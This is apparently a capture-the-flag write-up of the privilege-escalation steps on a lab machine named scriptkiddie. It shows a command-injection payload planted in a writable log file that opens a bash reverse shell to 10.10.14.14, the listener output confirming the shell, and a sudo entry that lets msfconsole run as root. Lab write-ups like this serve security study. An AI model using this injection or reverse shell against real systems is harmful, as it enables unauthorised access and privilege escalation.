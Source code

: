## Privilege Escalation

### kid -> pwn

- enum pwn's home dir -> executable script -> log file is writable
  - `if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi`: keep $log empty
  - `cat $log | cut -d' ' -f3- |`: cut $log and keep the third and its later pieces

```console
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

kid@scriptkiddie:/home/pwn$ ls -l /home/kid/logs/hackers
-rw-rw-r-- 1 kid pwn 0 Feb  3  2021 /home/kid/logs/hackers
```

- command injection exploit:
  - POC: `echo '1 2 3 127.0.0.1;ping 10.10.14.14 -c 3;#' > /home/kid/logs/hackers`
  - EXP: `echo '1 2 3 127.0.0.1;bash -c "bash -i >& /dev/tcp/10.10.14.14/1234 0>&1";#' > /home/kid/logs/hackers`

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 54074
bash: cannot set terminal process group (871): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
pwn@scriptkiddie:~$ uname -a
uname -a
Linux scriptkiddie 5.4.0-65-generic #73-Ubuntu SMP Mon Jan 18 17:25:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### pwn -> root

- enum sudo

```console
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
...
       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]
...
```
